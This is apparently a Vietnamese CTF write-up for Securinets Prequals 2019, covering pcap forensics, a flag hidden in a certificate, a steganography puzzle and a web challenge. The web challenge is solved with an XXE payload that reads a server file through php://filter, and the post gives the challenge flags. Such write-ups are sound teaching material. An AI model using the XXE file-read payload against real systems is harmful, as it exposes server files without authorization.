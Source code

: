 ```yaml
---
layout: post
comments: true
title: Securinets Prequals 2019
categories: ['2019']
---
```

Team định try hard 0ctf của 10cent nhưng mà khó quá sức mình nên mình rút đi làm cái khác với ôn bài mai thi :(

# Easy Trade (FORENSIC)
[easytrade.pcap](https://drive.google.com/file/d/1DkiG7WSANaAjwpCdgpBCGND0qQW6JvBF/view?usp=sharing)

Mở lên bằng Wireshark, nội dung là 2 thằng trao đổi file cho nhau bị bắt gói lại, không có gì đặc biệt. Mình thử foremost để extract ra xem trong file pcap có ẩn file gì không thì có 1 file zip chứa file flag, bật trở lại Wireshark, filter những cái nào là TCP lại, thì có password extract là `securinetsXD`

Flag : `securinets{954f670cb291ec276b1a9ff8453ea601}`

# HIDDEN (MISC)
[LINK](https://misc1.ctfsecurinets.com/)

Click vào link đập vào mặt mình là trang này bị chrome detect là not secure và sau khi dirsearch hay xem http header chả có gì hết thì mình mở certificate của nó lên xem, nó giấu flag trong filer `Subject` của certificate data 

Flag : `Securinets{HiDDeN_D@tA_In_S3lF_S3iGnEd_CeRtifICates}`

# Feedback (WEB)
[LINK](https://web2.ctfsecurinets.com/)

Source Code (đề phòng trường hợp link die) 

```html

<!DOCTYPE html>
<html lang="en">
<head>
	<title>Securinets CTF Feedback</title>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
<!--===============================================================================================-->
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="vendor/bootstrap/css/bootstrap.min.css">
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="fonts/font-awesome-4.7.0/css/font-awesome.min.css">
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="vendor/animate/animate.css">
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="vendor/css-hamburgers/hamburgers.min.css">
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="vendor/animsition/css/animsition.min.css">
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="vendor/select2/select2.min.css">
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="vendor/daterangepicker/daterangepicker.css">
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="css/util.css">
	<link rel="stylesheet" type="text/css" href="css/main.css">
<!--===============================================================================================-->
<script type="text/javascript">
function func(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>' +
        '<feedback>' +
        '<author>' + $('input[name="name"]').val() + '</author>' +
        '<email>' + $('input[name="email"]').val() + '</email>' +
        '<content>' + $('input[name="feedback"]').val() + '</content>' +
        '</feedback>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('Message').innerHTML = xmlhttp.responseText;
        }
    }
    xmlhttp.open("POST","feed.php",true);
    xmlhttp.send(xml);
};
</script>
</head>
<body>


	<div class="container-contact100">

		<div class="wrap-contact100">
			<form class="contact100-form validate-form" method="POST" onsubmit="func();return false;">
				<span class="contact100-form-title">
					Send Us A Feedback	
				</span>

				<div class="wrap-input100 validate-input" data-validate="Please enter your name">
					<input class="input100" type="text" name="name" placeholder="Full Name">
					<span class="focus-input100"></span>
				</div>

				<div class="wrap-input100 validate-input" data-validate = "Please enter your email: e@a.x">
					<input class="input100" type="text" name="email" placeholder="E-mail">
					<span class="focus-input100"></span>
				</div>

				<div class="wrap-input100 validate-input" data-validate = "Please enter your message">
					<textarea class="input100" name="feedback" placeholder="Your Feedback"></textarea>
					<span class="focus-input100"></span>
				</div>

				<div class="container-contact100-form-btn">
					<button class="contact100-form-btn">
						<span>
							<i class="fa fa-paper-plane-o m-r-6" aria-hidden="true"></i>
							Send
						</span>
					</button>
					<div id="Message" color="Blue" type="text"></div>
				</div>
			</form>
		</div>
	</div>



	<div id="dropDownSelect1"></div>

<!--===============================================================================================-->
	<script src="vendor/jquery/jquery-3.2.1.min.js"></script>
<!--===============================================================================================-->
	<script src="vendor/animsition/js/animsition.min.js"></script>
<!--===============================================================================================-->
	<script src="vendor/bootstrap/js/popper.js"></script>
	<script src="vendor/bootstrap/js/bootstrap.min.js"></script>
<!--===============================================================================================-->
	<script src="vendor/select2/select2.min.js"></script>
<!--===============================================================================================-->
	<script src="vendor/daterangepicker/moment.min.js"></script>
	<script src="vendor/daterangepicker/daterangepicker.js"></script>
<!--===============================================================================================-->
	<script src="vendor/countdowntime/countdowntime.js"></script>
<!--===============================================================================================-->
	<script src="js/main.js"></script>

<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-23581568-13"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-23581568-13');
</script>

</body>
</html>
```

Nhìn vào thì cái cần quan tâm nhất vẫn là cái này 

```javascript
<script type="text/javascript">
function func(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>' +
        '<feedback>' +
        '<author>' + $('input[name="name"]').val() + '</author>' +
        '<email>' + $('input[name="email"]').val() + '</email>' +
        '<content>' + $('input[name="feedback"]').val() + '</content>' +
        '</feedback>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('Message').innerHTML = xmlhttp.responseText;
        }
    }
    xmlhttp.open("POST","feed.php",true);
    xmlhttp.send(xml);
};
</script>
```

Nên mình nhảy vào làm XXE luôn

Payload:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY khoadeptrai SYSTEM 'php://filter/convert.base64-encode/resource=flag'>
]>
<feedback>
  <author>aa&khoadeptrai;aa</author>
  <email>khoadeptrai123@hehe.com</email>
  <content>jjjjj></content>
</feedback>
```

Flag : `Securinets{Xxe_xXE_@Ll_Th3_W@Y}`

# EZ (MISC)
[pic.png](https://drive.google.com/open?id=1H8PZgWhNaAfbpgLHmtvSr-0bw_dmKYUF)

Sử dụng đại 1 tool nào để đọc hidden text 
Mình sử dụng [steganography](https://matuhn.github.io/steganography/)
Sẽ nhận được 1 đoạn hidden text, có chủ đề về Sherlock Holmes, có 1 từ bị delete khỏi văn bản nên mình dùng cái E-Book này xem từ đó là từ gì [Link](https://books.google.com.vn/books?id=2cMyBcuKQy4C&pg=PA93&lpg=PA93&dq=%22The+fact+is+that+upon+his+entrance+I+had+instantly+recognized+the+extreme+personal+danger+in+which+I+lay.+The+only+conceivable+escape+for+him+lay+in+silencing+my+tongue.+In+an+instant+I+had+slipped+the+revolver+from+the+drawer+into+my+pocket+and+was+covering+him+through+the+cloth.+At+his+remark+I+drew+the+weapon+out+and+laid+it+cocked+upon+the+table.+He+still+smiled+and+blinked,+but+there+was+something+about+his+eyes+which+made+me+feel+very+glad+that+I+had+it+there,+%22You+evidently+don%27t+know+me,%27+said+he.+%22%27On+the+contrary,%27+I+answered,+%27I+think+it+is+fairly+evident+that+I+do.+Pray+take+a+chair.+I+can+spare+you+five+minutes+if+you+have+anything+to+say.%27+%22%27All+that+I+have+to+say+has+already+crossed+your+mind,%27+said+he.+%22%27Then+possibly+my+answer+has+crossed+yours,%27+I+replied.+%22%27You+stand+fast?%27+%22%27Absolutely.%27+%22He+clapped+his+hand+into+his+pocket,+and+I+raised+the+pistol+from+the+table.+But+he+merely+drew+out+a+%3CDETELED_WORD%3E+in+which+he+had+scribbled+some+dates.+%22You+crossed+my+path+on+the+fourth+of+January,%27+said+he.+%27On+the+twenty-third+you+incommoded+me;+by+the+middle+of+February+I+was+seriously+inconvenienced+by+you;+at+the+end+of+March+I+was+absolutely+hampered+in+my+plans;+and+now,+at+the+close+of+April,+I+find+myself+placed+in+such+a+position+through+your+continual+persecution+that+I+am+in+positive+danger+of+losing+my+liberty.+The+situation+is+becoming+an+impossible+one.%27+%22%27Have+you+any+suggestion+to+make?%27+I+asked.+%22%27You+must+drop+it,+Mr.+Holmes,%27+said+he,+swaying+his+face+about.+%27You+really+must,+you+know.%27%22&source=bl&ots=_4yJ48IH35&sig=ACfU3U0IaC09mRmo84TqnLRuz-_1qVz-vw&hl=vi&sa=X&ved=2ahUKEwjwnNmDh5rhAhVUUd4KHSRqC8UQ6AEwAXoECAkQAQ#v=onepage&q=n%20which%20he%20had%20scribbled%20some&f=false) 

Flag : `Securinets{b47f0d2a8866a75696f94a515d0cdf54c7ea3174}`
